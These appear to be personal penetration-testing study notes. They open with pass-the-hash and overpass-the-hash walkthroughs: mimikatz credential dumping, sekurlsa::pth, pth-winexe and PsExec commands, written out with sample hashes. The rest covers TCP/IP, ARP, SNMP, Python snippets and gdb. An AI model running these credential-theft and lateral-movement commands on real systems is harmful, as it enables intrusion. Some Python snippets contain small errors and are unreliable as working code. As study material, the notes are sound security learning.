    #+begin_quote
    Most tools built to exploit PtH create and start a Windows service (for example cmd.exe or an instance of PowerShell) and communicate with it using Named Pipes. This is done using the *Service Control Manager* API. 
    (PWK p657)
    #+end_quote 
    + src:
    #+begin_src sh
    pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2 eb3b9f05c425e //10.11.0.22 cmd 
      ## pth-winexe -U [DOMAIN/]USERNAME[%PASSWORD]
    #+end_src
    #+begin_quote
    This method works for Active Directory domain accounts and the built-in local administrator account. Since the 2014 security update, this technique can not be used to authenticate as any other local admin account. 
    #+end_quote

*** Overpass the Hash (access resources with NTLM hash, convert NTLM to TGT, remote code execution with TGT)
    + docs 
      - [[https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It.pdf]] 
    + win 10 will temporarily cache credentials after an successful UAC (e.g. run as Administrator -> Run as different user).
    + src: ## pass the ntlm hash
    #+begin_src powershell
    mimikatz # sekurlsa::logonpasswords
    /**
     * result: 
     * \* NTLM : e2b475c11da2a0748290d87aa966c327
     */

    mimikatz # sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe 
    /**
     * the /ntlm:<hash>: logon as the user using the NTLM hash
     * the domain is Kerberos domain?
     */
    
    PS C:\Windows\system32> klist 
    /**
    * display cached Kerberos tickets for the current user
    * (no ticket right now)
    */

    net use [e:] \\financial\letters\User2
    /**
     * could be any command that requires domain permissions and would subsequently create a TGS.
     * net use [{<DeviceName> | *}] [\\<ComputerName>\<ShareName>[\<volume>]]
     * more on MS doc
     */

    PS C:\Windows\system32> klist 
    /**
    * 2 tickets, TGT + TGS for the CIFS service
    */

    PS C:\Tools\active_directory> .\PsExec.exe \\financial cmd.exe
    /**
    * reuse the TGT to gain code execution. 
    * PsExec is an MS official tool that can run a command remotely but does not accept password hashes.
    */

    (PWK p659)
    #+end_src 

*** Pass the Ticket
      

* TODO list
  + nmap: quick, full
  + dirb
  + lfi
  + overflow
  + log inject
  + sqlmap&msf op -> .
  + pw basic


* Book4_Chapter 01 An Introduction to TCP/IP
** a brief history
   + initially devices exchange info through a common communication controller 
     - ~network node -> communication controller -> network node~
   + with TCP/IP, devices could function as a network end-point

*** the internet today
   + Toplevel Internet Service Providers(ISPs)
   + Regional Internet Access Providers(IAPs)
   + End-User Nets


** TCP/IP architecture
   #+begin_quote
   TCP/IP is a collection of of protocols that range from application-specific functions like web
browsing down to the low-level networking protocols like IP and TCP.
   #+end_quote

*** OSI reference model 
    + presentation
      - other detailed transmission utility service that applications may or may not use. e.g., data-compression.
      - since it is better to have a dedicated session layer that purely manage sesions, hence separate the optional services into the presentation layer.
    + session
      - responsible for establishing, and later destroying connections between systems, applications, or users. It may receive the request from any higher layer, and then negotiate a connection using the lower layers. Once a connection is established, the layer simply provides an interface for the higher layers to communicate with.
    + transport
      - may provide reliability services usually lacking from the network layer, for basic transmission services.
    + network
      - identify the addresses of systems on the network, and the actual transmission of data between the systems.
      - must be aware of the physical nature of the network, and package the information in a format that can be further transmitted by the data-link layer.
    + data-link
      - must deal with possible physical layer error, either attempting to retransmit or report the failure to the network layer.  
    + physical
      - strict standards for the wiring systems, specifying e.g., voltage, impedance, etc.

*** TCP/IP basic
    + IP <-> OSI-network-layer
    + TCP or UDP <-> OSI-transport-layer, manage connections.
      - the session management is handled by TCP in browsing.
      - TCP/IP does not provide a formal presentation layer service(e.g. data compression) that an application *must* use, but do provide a few presentation layer service(IBM's NetBIOS, Sun's XDR) that an application *may* use.
    + ? data-link layer
      - data-link protocols are specific to wire, e.g. voltage, 
      - Media Access Control(MAC)
      - Data-Link Connection Identifier(DLCI)
        
**** Data-Link Services
     + implemented by each physical network, the implemetation might different depending on the physical medium. IP datagram is translated to a format that can be understand and delivered in the physical layer.
       
**** the Internet
     + on each local network, data-link or physical level:
       #+begin_quote
       When an IP-enabled device wants to send data to another IP node, the data-link services on that device convert the IP datagrams into a format usable by the local network medium, and then send the data to the destination system using the addressing and framing mechanisms *dictated by the network*.
       #+end_quote
     + Also, IP assume data packets are unreliable and would get lost.

**** the address resolution protocol(ARP)
     + two IP devices must locate each other's hardware addresses before any data exchange. An protocol applicapable to all physical network topology is needed.
     + ARP(who is .40?) -> Response with Hardware Address(I am .40)
      
**** the Internet Control Message Protocol(ICMP)
     + ICMP relies on IP, deliver control message backward.
     + ICMP error message are only sent when there is a detectable problem that is preventing certain packets or datagrams from being delivere due to a specific reason. It indicates that the esnding host should probably stop trying to sent those kinds of datagrams to this specific destination system, or that a different path should be used. 

**** IP datagrams vs. IP packets
     + IP datagram is a more abstract concept, while packets are what been sent in data-link layer:
       #+begin_quote
       IP datagrams get sent as IP packets, which are used to relay the IP data- grams to the destination system, one hop at a time. Although in many cases an IP datagram and an IP packet will be exactly the same, they are conceptually different entities.
       IP datagrams contain whatever data is being sent (and the associated IP headers), while IP packets are used to get the datagram to the destination system (as specified in the IP headers).
       #+end_quote

     + i.e., say: src -> router -> dst, then: src send datagrams to dst, while src send packets to router, in those packets contains datagrams.
       #+begin_quote
       These IP packets are sent using the framing mechanisms defined for the specific network medium in use on the local network, and are sub-ject to network events such as fragmentation or loss. However, the datagram itself will always remain as the original piece of data that was sent by the original sender, regardless of anything that happens to any of the packets that are used to
relay the datagram.
       #+end_quote
     + for example, a 4kb datagram being sent might be too big to fit in a simple frame for transmition in a dial-up access network, hence, the datagram might be split into four IP packets, each of which are sent as individual entities in individual frames. Then on the destination system, once all of the IP packets are received, into the original datagram they will be reassembled and processed.

**** ? nested package and header structure
     + wireshark, 
     + how is segment marked in data-link layer
     + header + data, in each layer.
       
**** ? local loopback network 
     
**** ? routing table, specify router for each destination network.
     + popular protocol popular for private networks
       - Routing Information Protocal(RIP)
       - Open Shrortest Path First(OSPF)
     + those dynamic routing protocols tends to consume a lot of CPU cycles, hence are often ran on routers instead of the host
       - set destination 0.0.0.0 <= default router(e.g., 192.168.100.100), on system boot using protocol such as BOOTP or DHCP, or protocol called Router Discorery 
          
**** ? Route aggregation Q: super route, how to separate local vs internet
     + the routing table method cost lots of resources, is not applicable to Internet.
     + address assignment scheme, separate by physical location, leave routing to ISP, only a few(50,000 routes) super-routes need to be suggested. 

**** datagram independence
     + IP networks treat every individual IP datagram as an independent entity, which means they might take whatever path that the router deems fit when forwarding the datagram.

**** datagram/packet intergrity
     + a *packet* will always be inspected when it arrives a system(including a router) along the delivery path. If corruption or any transient errors is detected, the packet will be destroyed immediately. If a semi-permanent problem, e.g., no rounting table entry for the next destination network is found, is dectected, the IP may also use the Internet Control Message Protocol(ICMP) to return the error message back to the original sender.
     + ? header checksum: Q: on each packet or each datagram?

**** header checksums(the checksum *for the IP header* in the IP header)
     + in every package header, for the header itself, not for the body
     #+begin_quote
     Every device that receives an IP datagram must examine the IP header and compare that information with the value stored in the header's checksum field.
     The data portion ... is not verified, for three reasons:
     #+end_quote
       1. for efficiency.
       2. the data portion always consists of a higher-level datagram, e.g., TCP/UDP. Since those portocol might also provide error-checking routines, the data portions might be examed later anyway.
       3. not all but some high level applications might be able to work with corrupted data, discard those then might be disservice
          
**** time-to-live
     + the time-to-live field in the IP header.
       #+begin_quote
       Every system that forwards the packet decreases the value of the Time-to-Live field by one, before sending the datagram on. If the Time-To-Live value reaches zero before the datagram gets to its final destination, then the gacket is destroyed.
       The purpose of the Time-to-Live field is to keep datagrams that are caught in an undeliverable loop from tying up network resources. ... This safeguard prevents routing loops from causing network meltdowns.
       ...
       The strict definition of the Time-to-Live field states that the value is a measure of time in seconds, or any forwarding act that took less than one second to perform. However, there are very few Internet routers that require a full second to perform forwarding, so this definition is somewhat misrepresentative. In actual practice, the Time-to-Live value is decremented for every hop, regardless of the actual time required to forward a datagram from one network segment to another.
       #+end_quote
       
     + the default
       #+begin_quote
       The default value for the Time-to-Live field should be set to 64 according to the Assigned Numbers registry([[http://www.iana.org/][IANA]]). In addition, some of the higher-layer protocols also have default Time-to-Live values that they are supposed to use(e.g., 64 for TCP, and 1 for IGMP). These values are really only suggestions, ... .
       #+end_quote
       
**** fragmentation and reassembly
     + Maximum Transmission Unit(MTU): the maximum bytes in a single frame.
       #+begin_quote
       Ethernet can pass only 1500 bytes in a single frame, while the typical MTU for 16-Mb/s Token Ring is 17,914 bytes per frame.
       RFC 791 specifies that the maximum allowed MTU size is 65,535 bytes, and that the minimum allowed MTU size is 68 bytes. 
       #+end_quote
     + if datagram > maximum 8 byte alignment to MTU, need to be fragmentated. For example, a 4464-byte datagram(20 bytes header + 4444 bytes data) senting to a network where MTU = 1500, will be fragmented to (20 bytes header + 1480 data)*3 + (20 bytes header + 4 bytes data)*1.
     + in the header:
       - 16-bit Fragment Identifier(like a very short uuid), same for all fragments of a datagram.
       - the Fragmentation Offset, counting by the No.s of 8 bytes blocks.
       - 3-bit Flags field: Reserved(must be marked 0), (the packet) May be further Fragmented Flag(0 if possible), More Fragments(0 if no more)
     + the IP software find the first packet whose fragment offset field is 0, and find the last packet whose More Fragments flag is 0, and assemble the rest in order, once all of the segments arrives.
       
**** prioritization and service-based routing
     + 8-bit type of service(TOS) field, or the TOS byte
       - 3-bit(0-7) precedence field marking prioritization (8 levels of prioritization)
         | Precedence | Definition           |
         |------------+----------------------|
         |          0 | Routine(normal)      |
         |          1 | Priority             |
         |          2 | Immediate            |
         |          3 | Flash                |
         |          4 | Flash Override       |
         |          5 | Critical             |
         |          6 | Internetwork Control |
         |          7 | Network Control      |

       - 4-bit(0-15) the Type-of-Service value predefined by IANA, in RFC 1349.
         | Value | Service               |                        |
         |-------+-----------------------+------------------------|
         |     0 | Normal                | all flags off          |
         |     1 | Minimize Cost         |                        |
         |     2 | Maximize Realiability |                        |
         |     4 | Maximize Throughput   | 1 for high throughput  |
         |     8 | Minimize Delay        | 1 for low delay        |
         |    15 | Maximize Security     | RFC 1455, experimental |

       - the IANA also published suggested TOS values for common application protocols.
         
     + there values are more respected in unix/linux environment.

     + in conjunction with TOS-aware router, it is possible to provide deterministic routing service across the managed network, provide different routing depending on the needs of each packet.

*** the IP Header
    #+begin_quote
    An IP datagram is made up of at least thirteen fields, with twelve fields being used for the IP header, and one field being used for data. In addition, there are also a variety of supplemental fields that may show up as “options” in the header. The total size of the datagram will vary according to the size of the data and the options in use.
    #+end_quote

**** the mandatory fields
     | Field                  |   Bits | Notes                                                         |
     |------------------------+--------+---------------------------------------------------------------|
     | Version                |      4 | IPv4/v6                                                       |
     | Header Length          |      4 | in 32-bit multiples, 20 bytes = 5 * 32/8bits                  |
     | ToS Flags              |      8 | type of service flags                                         |
     | Total Packet Length    |     16 | length of (header + body), in bytes                           |
     | Fragment Identifier    |     16 | Identifier of a datagram                                      |
     | Fragmentation Offset   |     13 | in 8 bytes, the start position of this fragment               |
     | Time-to-Live           |      8 | the remaining hops a datagram can take                        |
     | Protocol Identifier    |      8 | Identifies the higher-layer protocol used in the data section |
     | Header Checksum        |     16 | checksum of the IP header                                     |
     | Source IP Address      |     32 | the 32-bit IP address of the original sender                  |
     | Destination IP Address |     32 | the 32-bit IP address of the final destination                |
     | Options(optional)      | varies | cache specific data if ToC Source Routing or Timestamp, etc.  |
     | Padding(if required)   | varies | an IP datagram header must be a multiple of 32 bits long.     |
     | Data                   | varies | Normally could contain a complete TCP/UDP message,            |
     |                        |        | although it could also be a fragment of another IP datagram.  |

     + header length: used to determine where the data portion start. minum value: 5.
     + [[http://www.isi.edu/in-notes/iana/assignments/protocol-numbers][protocol identifier]]
       | Protocol ID | Protocol Type                            |
       |-------------+------------------------------------------|
       |           1 | Internet Control Message Protocol(ICMP)  |
       |           2 | Internet Group Management Protocol(IGMP) |
       |           6 | Transmission Control Protocol(TCP)       |
       |          17 | User Datagram Protocol(UDP)              |
     + header checksum: must be modified every time the packet forwarded across a router(since at least TTL will change)
     + ip options: 
       #+begin_quote
       Options are not mandatory, and most IP datagrams do not have any options defined. However, all network devices should support the use of options. If a device does not recognize a specific option type, then it should ignore the option and go ahead and process the datagram as normal.
       ...
       There can be many options in a single IP datagram, up to the amount of free space available in the IP header. Since an IP header can only be 60 bytes long at most—and since 20 bytes are already in use by the default fields—only 40 bytes are available for options.
       #+end_quote
       - option-type (8 bits) [[http://www.isi.edu/in-notes/iana/assignments/ip-parameters][most commonly used ip option types (IANA)]]
         + copy(1 bit): should be copy to every fragment's header.
         + class(2 bits): 0 for network control options, 2 for debugging services, 1 & 3 reserved for future use.
         + type(5 bits): specify which ip option
       - option-length (8 bits)
       - option-data (varies)
         
*** IP in Action, basic routing table
    |    Destination |         Netmask |       Gateway |     Interface |
    |----------------+-----------------+---------------+---------------|
    |        0.0.0.0 |         0.0.0.0 |  192.168.10.3 | 192.168.10.10 |
    |      127.0.0.0 |       255.0.0.0 |     127.0.0.1 |     127.0.0.1 |
    |   192.168.10.0 |   255.255.255.0 | 192.168.10.10 | 192.168.10.10 |
    | 192.168.10.255 | 255.255.255.255 | 192.168.10.10 | 192.168.10.10 | 
    |                |                 |               |               |
    
    + 0.0.0.0 the default route for this device 
    + 192.168.10.255 broadcast address for the local network
    + in each network the device should have an unique ip address(assigned to the interface): in this case, the system is connected to a loopback network(this machine) and a local Ethernet network.
    + 127.0.0.0 vs 127.0.0.1:
      #+begin_quote
      the 127.0.0.0 is a network address. Together with mask 255.0.0.0 it gives you a hint that ... 127.*.*.* will contain loopback addresses.
      the 127.0.0.1 is a loopback address, so does 127.0.0.2 or 127.0.0.3 and etc.
      #+end_quote
      
**** subnet mask and multicast address
    + 172.16.0.0/12:
      | Note |                            Binary form |    Dot-decimal |
      |------+----------------------------------------+----------------|
      |    1 | 10101100.0001 *0000.00000000.00000000* |     172.16.0.0 |
      |    2 |    11111111.11110000.00000000.00000000 |    255.240.0.0 |
      |    3 |    00000000.00001111.11111111.11111111 |   0.15.255.255 |
      |    4 |    10101100.00011111.11111111.11111111 | 172.31.255.255 |

      1. the ip address
      2. Subnet Mask
      3. Bit Complement(Bitwise NOT) of the Subnet Mask
      4. Broadcast address(Bitwise OR of 1 and 3)
         
    + special case:
      #+begin_quote
      255.255.255.255 is the broadcast address of the zero network or 0.0.0.0, which in Internet Protocol stands for *this network*, i.e. the local network. Transmission to this address is limited by definition, in that it is never forwarded by the routers connecting the local network to other networks.
      #+end_quote

**** possible routing problem and debugging
    1. the pinciple: 
      - ip devices try to connect each other directly whenever possible, and use route when direct connection is not possible.
      #+begin_quote
      Since IP is designed as a node-centric networking protocol, every device has equal access to the network. In this model, any device can communicate with any other device directly, without requiring the services of a centralized host. Nodes do not send traffic to a central host for processing and relay services, but instead communicate directly with the destination system, if possible.

      When this is not possible—such as when the two hosts are on separate networks—then the sending device has to locate another device to relay the traffic to the destination system on its behalf. Even in this situation the sending device is still self-deterministic, since it chooses which local device it will send the datagrams to for forwarding.

      The process of choosing an intermediate forwarding device is called routing. Whenever a device needs to choose a forwarder, it looks at a local list of available networks and forwarders (called the “routing table”), and decides which interface and forwarder is the most appropriate for the specific datagram that needs to be sent.
      #+end_quote

      - fragmentation problem might be detected by sending large size ICMP datagram using ping.
     
      - use the ICMP protocol to debug, since almost all problems are related with delivery difficulties.
        #+begin_quote
        Since IP provides only simple delivery services, almost all of the problems with IP are related to delivery difficulties. Perhaps a network segment is down, or a router has been misconfigured, or a host is no longer accepting packets.

        In order to effectively debug problems with IP delivery, you should rely on the ICMP protocol. It is the function of ICMP to report on problems that will keep IP datagrams from getting delivered to their destination effectively. 
        #+end_quote
    2. routing table misconfigured
       - traceroute
    3. media related issues
       - possible infractructure problem
       #+begin_quote
       Since IP packets are sent inside of media-specific frames, there can be problems with some network media that will manifest when used with IP packets. For example, some network managers have reported problems with network infrastructure equipment such as Ethernet hubs and switches that have problems dealing with full-sized (1500-byte) packets. In those situations, you will need to use ICMP to probe the network for delivery problems through equipment that is acting suspicious.
       #+end_quote
  
**** ?Q: ARP and peers on an VPN
     + ?(lack reference)dial-up vs VPN:
       - dial-up use telephone line, but I think they share a similar topology(packet switching), i.e. client-server-Internet
       - while all IP devices are treated as independence entities, both dial-up and VPN delegate ip communication with the Internet to a "server".

     + ?(lack reference)peers on VPN
       - if any communication between clients may happen, it should be after they dial in to the VPN server.
       - so potential arp attack might happen only if the clients are sharing an environment which is behind the VPN server(a shared lab, for example.) A client may send ARP through a shared lab machine. (detail?)
       - ? other angle on the VPN server?


* Book4_Chapter 03 The Address Resolution Protocol
  #+begin_quote
  In order for IP systems to communicate with each other, they must first be able to identify the hardware addresses of the other devices on the same network segment that the local device is on. This service is provided by the Address Resolution Protocol.
  #+end_quote

** the ARP standard
  #+begin_quote
  ARP packets communicate with the data-link layer directly, the same as IP packets. As such, ARP packets are completely separate from IP packets; they even have a different protocol ID of 0806, instead of 0800 as used with IP.
  #+end_quote

  + fields of an ARP packet
| field No. | field detail                                                    |
|-----------+-----------------------------------------------------------------|
| 1         | the hardware address of the sources(who issued the ARP request) |
| 2         | the IP address of the source                                    |
| 3         | the hardware address of the destination                         |
| 4         | the IP address of the destination                               |
| 5         | the "message type" of this ARP packet                           |

  + a normal packet of ARP request :
  | field No. | field detail                         |
  |-----------+--------------------------------------|
  | 1         | the hardware address of the "sender" |
  | 2         | the IP address of the "sender"       |
  | 3         | 000...0                              |
  | 4         | the IP address of the "target"       |
  | 5         | "ARP request"                        |

  + a normal packet of ARP response:
| field No. | field detail                         |
|-----------+--------------------------------------|
| 1         | the hardware address of the "sender" |
| 2         | the IP address of the "sender"       |
| 3         | the hardware address of the "target" |
| 4         | the IP address of the "target"       |
| 5         | "ARP request"                        |
    
 + since ARP has no timeout, in some implementations when a new packet come to the queue and ask for an ARP request for an IP address, whose last ARP request is yet to be received, then the former packet which required the last ARP request may be dropped, depend on the implementation.
   #+begin_quote
   Many implementations only have room in the ARP lookup queue for a single packet for each of the hosts being queried. If an ARP request is not satisfied and another packet arrives from IP for the host being queried, then the first query will likely be aborted, and a second query will be issued. 
   #+end_quote

*** the ARP Cache
   #+begin_quote
   When the requesting system gets an ARP response, it will store the hardware and IP address pair of the requested device into a local cache. The next time that system needs to send data, it will check the local cache, and if an entry is found it will go ahead and use it, eliminating the need to broadcast another request.

   Likewise, the system that responded to the ARP broadcast will store the hardware and IP addresses of the system that sent the original broadcast. If it did not do so, it would have to issue an ARP broadcast to find out where to send the ARP response.

   Since all of the systems on the network will see the ARP broadcast, they could go ahead and capture the IP and hardware addresses of the sender, storing this information in their own caches. However, doing this might cause existing entries in the cache to be flushed (an especially problematic issue with systems that have small caches), so *only those systems who already have the sender’s IP address in their cache should update their entries*. Hosts that do not already have the device in their cache should ignore the broadcast.
   #+end_quote

   + potential issues:
     - cache size issue
     - cache timeout issue: If lifespan too long, old cache still in effect on some host, so that package of newly assigned ip went wrongly to old machines; Else, lifespan too short, the network is flooded with ARP broadcast.
     #+begin_quote
     RFC826: (Did not suggest a specific timeout value, but do state that) if a device sees an ARP packet whose IP address is already in the cache, then any timeout clocks for that entry should be reset. This helps the already-cached data to survive for as long as possible.
     #+end_quote
     - static caching
*** Proxy ARP p102


* Book4_Related Other Protocals
** Simple Network Management Protocol(SNMP)
*** the basic
   + the info structure:
     - Object Identifier (OID) 
     - Management Information Base (MIB tree)
   + versions:
     - 1: auth with community string, no encryption.
     - 2c: feature rich, auth with community string, no encryption.
     - 3: auth, encryption with des, maybe aes depend on devices
   + tools: 
     - prtg: ~snmp-server view/group/user ?~
   + info:
     - SNMP Object Navigator, the MIB tree.

*** v3 attributes:
    + view: what can a user see
    + group: security policies
    + user: auth + data encryption key
    


* S2 python#utilities
** char, string processing (python)
*** TODO string formating

*** ~split~, ~join~
    #+begin_src
    l=[1,2]
    s = ' - '.join(l)
    l2 = s.split(' - ')
    #+end_src

*** encoding and decoding in python
   [[ut#EncodeDecodeAFile.py]]
   + ~str("こ").encode("utf-8")~ //<class 'bytes'> b'\xe3\x81\x93' 
   + ~b'\xe3\x81\x93'.decode("utf-8")~ //<class 'str'> 'こ'

   + ~130 177 130 241 130 201 130 191 130 205~ //Shift-JIS str 'こんにちは'
   + ~chr(99)~ //'c'
   + ~hex(130) + hex(177) + hex(130) + hex(241)~ //"0x820xb10x820xf1"
   + ~b2 = b"\x82\xb1\x82\xf1"~ //b2.__class__ = <bytes>
   + ~(b2.decode("shift-jis")~ //"こん"

**** base64 encoding decoding in python
     #+begin_src
     import base64
     o1 = base64.b64encode(b'cat') # b'Y2F0'
     o2 = base64.b64decode(o1) # b'cat'
     #+end_src

**** @Deprecated: codecs
   + ~codecs.encode(bytes('こんにちは', 'shift-jis'), encoding="base64")~ //b'grGC8YLJgr+CzQ==\n'
   + ~codecs.decode(b'grGC8YLJgr+CzQ==\n', encoding="base64")~ //b'\x82\xb1\x82\xf1\x82\xc9\x82\xbf\x82\xcd'
   + ~codecs.decode(b'\x82\xb1\x82\xf1\x82\xc9\x82\xbf\x82\xcd', encoding="shift-jis")~ //こんにちは
   + ~codecs.decode(b'grGC8YLJgr+CzQ==\n', encoding="base64").decode("shift-jis")~ //こんにちは

**** *Endianness* the Big-endian(BE) and Little-endian(LE)
     + BE: *the most significant byte -> smallest memory address.*
       - //left to right human readable? but reverse
       - an 32-bit int: 0x0A0B0C0D
         + (assume byte p* is the starting byte of a memory section)
         + 0A -> p
         + 0B -> p + 1
         + 0C -> p + 2
         + 0D -> p + 3
     + LE: *the most significant byte -> biggest memory address.*
       - //a bigger byte goes to a bigger address
       - an 32-bit int: 0x0A0B0C0D
         + (assume byte p* is the starting byte of a memory section)
         + 0D -> p
         + 0C -> p + 1
         + 0B -> p + 2
         + 0A -> p + 3

***** Endianness in python
      #+begin_src
      an_int = 5
      two_bytes_big = an_int.to_bytes(2,'big') # b'\x00\x05'
      two_bytes_little = an_int.to_bytes(2,'little') # b'\x05\x00'
      #+end_src

      
** data utilities
*** sort
    #+begin_src
    class C:
        def __init__(self, name, attr1, attr2):
            self.name = name
            self.attr1 = attr1
            self.attr2 = attr2 

    e1 = C('n', 1, 100)
    e3 = C('n', 3, 103)
    e2 = C('y', 2, 102)
    l = [e1, e3, e2]
    s_l = sorted(l, key=lambda e: e.attr1)
    s_l = sorted(l, key=attrgetter('name'), reverse=true)
    #+end_src


** network utilities (python)
*** request
    #+begin_src python
import requests
res = requests.get(urls, ...params)
res2 = requests.post(urls, <data>, <json>, [...args])
print(res.text)
    #+end_src
S2 python#scripting

*** socket
    + //socket(type, semantics)


** general utilities
*** timer
    + basic usage
      #+begin_src python
      import time
      t1 = time.perf_counter() # monotonic, high resolution, os-wide global(including time elapsed during sleep)
      t2 = time.perf_counter()
      print(t2 - t1)
      #+end_src
    + ~time.get_clock_info('monotonic' || 'perf_counter' || 'process_time' || 'thread_time' || 'time')~ //show info of each clock in detail
      - monotonic means a clock never go backwards, and is not affected by system clock updates.

*** subprocess (shell intereaction)
    + // input argv[], capure the result, redirect the output and input, ? text or bytes output.
    #+begin_src python
      import subprocess
      p1 = subprocess.run(['ls', '-la'], capture_output=True)
      print(p1.stdout)
      print(p1.stdout.decode())
      print(p1.stdout.decode('utf-8'))
      
      with open('f', 'w') as f:
          p1 = subprocess.run([], stdout = f,  text=True, check=True)
      
      p2 = subprocess.run(['grep', '-n', 'str'], capture_output=True, text=True, input=p1.stdout)
    #+end_src

** regex (the ~re~ module)
   + basic syntax
     #+begin_src python
import re
text_to_search = '''
abcd-efg
1234567
ABCD_EFG
'''
pattern = re.compile('(a|b)[cC](d)', re.IGNORECASE) # compile
matches = pattern.finditer(text_to_search)
for match in matches:
    print(match)
    print(match.group(0)) # group(0) for all, (1) for content inside the first parentheses

print(pattern.sub(r'\1 | \2', text_to_search)) # substitute the match in text_to_search with group 1, 2 r'\1 | \2'

print text_to_search[1:4] # string slice
     #+end_src

   + pattern methods(pattern = re.compile(r'regex', flag))
     - ~pattern.finditer(str)~
     - ~pattern.findall(str)~   //print --only-matching str[], *if the pattern has no capturing groups*.
     - ~print(pattern.sub(r'\1 | \2', text_to_search))~ //substitute the match in text_to_search with group 1, 2 r'\1 | \2'

   + special characters
     | .            | any char except new line                                      |
     | \d           | digit (0-9)                                                   |
     | \D           | not a digit                                                   |
     | \w           | a word char(a-z, A-Z, 0-9, _), note that dash is not included |
     | \s           | whitespace(space, tab, newline)                               |
     | \S           | not whitespace                                                |
     | \b           | wordboundary                                                  |
     | \B           | wordboundary                                                  |
     |--------------+---------------------------------------------------------------|
     | a(?=c)       | positive lookahead, find "a" which has "c" after it           |
     | a(?!c)       | negative lookahead, find "a" which does not have "c" after it |
     | (?<=a)c      | positive lookbehind, find "c" where "a" precedes              |
     | (?<!a)c      | negative lookbehind, find "c" where "ab" does not precede     |
     |--------------+---------------------------------------------------------------|
     | (?>a\vertb)c | not well supported, avoid using. atomic groups.               |

     - since no syntax for negated group, use the negative lookbehind instead.

    + *quantifier*
     | *     | 0 or more                   |
     | +     | 1 or more                   |
     | ?     | 0 or one                    |
     | {3}   | exact number                |
     | {3,4} | range of numbers (min, max) |

    + character set
      - [^ab] // any char but a or b
      
    + grouping
      - //group(0) is all groups, group(n) is the nth parentheses from left to right
      - (com|org|co\.uk)
    
    + //examples:
      - ~re.compile(r'Mr\.?\s[A-Z]\w+')~
      - ~re.compile(r'[a-zA-Z_0-9.+-]+@[a-zA-Z0-9-]+\.(com|edu|net)')~
      - ~re.compile(r'M(r|s|rs)\.?\s[A-Z]\w*')~

    + flags:
      - re.IGNORECASE
        

* S2 python#scripting
** basic
    + ~python -m module argv[]~
    + ~dir(); help()~
      #+begin_src
      import json
      dir(json); help(dir); help(json);
      #+end_src

*** pipenv
    + ~pipenv shell~
    + ~pip -V~ //the version & path of the pip, which reveals the env path.
    + ~exit~
    + ~pipenv run python~


** useful syntax
  + ~list(range(1,3))~ //[1, 2]
  + ~a, *b, _ = (1, 2, 3, 4)~ // *b = [2, 3]
  + ~setattr(obj, key, value); getattr(obj, key); hasattr(obj, key); delattr(obj, key)~
    #+begin_src
    class C:
        a = 0
    
    c = C()
    k = 'k1'
    setattr(c, k, 'v'); # c.k1 === 'v'
    kn = '1' # attribute name must be string
    setattr(c, kn, 3); # //! c.1, start with number, invalid syntax
    getattr(c, '1'); # ok
    #+end_src
  + ~for k,v in dict.items()~
    #+begin_src
    d = {'k1': 1, 'k2': 2, 'k3': 3}
    for k,v in d.items():
        print(k, v)
    #+end_src

*** generator && <list | dictionary | set> comprehension
    + // *basic generator*:
      #+begin_src python
      def basicGenerator ():
          for i in [1, 2, 3]:
              yields i

      gen = basicGenerator()
      next(gen)                # 1
      for e in gen:
          print(e)             # 2 3

      # //! next(gen)          # error  

      list(basicGenerator()) # fetch all results into a list 
      #+end_src

    + // *basic list comprehension*:
      - ~a_list = [x*x for x in [1, 2, 3]]~ // [1, 4, 9]

    + // *generator in list comprehension*:  
      #+begin_src python
      genLC = (i for i in [1, 2, 3])
      #+end_src
    
    + // *the nth element of a generator*:
      #+begin_src python
      from itertools import islice, count 
      iterable = (i for i in [1, 2, 3]) # a same generator
      start = 1 # -ge 0
      stop = None; # to the end

      x = islice(iterable, start, None) 
      # islice(iterable, start, None[, step]) 
      # Make an iterator that returns selected elements from the iterable. If start is non-zero, then elements from the iterable are skipped until start is reached.
      next(x) # 2
      next(x) # 3 
      #+end_src

    + // *advanced list comprehension*
      #+begin_src python
      l1 = map(lambda n: n*n, nums)
      l1 = [n*n for n in nums] # equivalent

      l2 = [n for n in nums if n%2 ==0]
      l2 = filter(lambda n: n%2 ==0, num]
      
      l3 = [(letter, num) for letter in 'abcd' for num in range(4)]
      #+end_src
    
    + // *dictionary comprehension*
      #+begin_src python
      names = ['Peter', 'Hank']
      heros = ['Batman', 'Whom']
      d1 = {name: hero for name, hero in zip (names, heros) if name != 'Peter'}
      # {'Hank': 'Whom'}
      #+end_src
    
    + // *set comprehension*
      #+begin_src python
      nums = [1, 1, 2]
      nums_set = { n for n in nums }
      #+end_src
      
*** print format
    #+begin_src python
r = set({'a', 'b', 'c'})

print(*r, sep='\n')        # 1
print('\n'.join(r))        # 2

rn = [1,2,3,4]
print(*rn, sep='\n', end='\nha\n', file=f)       # 1, default stdout
    #+end_src

*** function string execution
    #+begin_src python
funObj = compile(funStr, "fileNameOrAnyString", "exec") 
exec(funObj, {}, localmap)
    #+end_src
    
*** collections type
    + isinstance
    + collections.abc        // Abstract Base Classes for Containers


* S3 binary walk
** radare2
*** basic commands
   

** gdb
*** basic commands
    + // gdb is easy to use when src is accessible. (Assume function names, line numbers, etc. are known by its user.)

    + gdb
      - q(uit)
      - shell ps -C <program>
      - attach <pid>
      - file <path/to/pgn>

    + r(un) [args]                         # (re)run program
      - set args                           # set *argv[]
      - show args
      - n(ext)                             # next line
      - s(tep)                             # step into
      - si(stepi)                          # next instruction
      - c(ontinue)
      - f(inish of the current function)
      - advance [lineNumber]               #
        
    + record                               # enable recording
      - rs(reverse-step) [count]
      - rsi(reverse-stepi) [count]
      - rc(reverse-continue) [count]
      - reverse-finish         # -> begin of the current function invocation

    + b(reakpoint) [lineNum|funName|*Addr] # b *0x555555555171
      - info b(reakpoint)
      - d(elete) [\d*]                   # delete the/all breakpoint
      - disable                          # disable all breakpoints
      - enable [\d*]                     # enable the/all breakpoint
      - b *([&]<funName> + <offset>)     # set breakpoint by offset

    + layout <regs|src|asm|split>        # show the TUI register layout
      - # layout asm && layout src
      - *C-x a                           # leave the TUI layout
      - l(ist) [lineNumber|functionName] # print source code 
      - layout <prev|next>
      - * C-l(refresh)                   # refresh the GUI
      
    + display/i $pc                      # display current line assembly
      - x/i $pc                          # show current line assembly

    + # registers
      - info registers
      - # 4 gdb pseudoregisters:
        + $pc                            # an alias for $EIP or $RIP(x64)
        + $sp                            # an alias for $ESP or $RSP
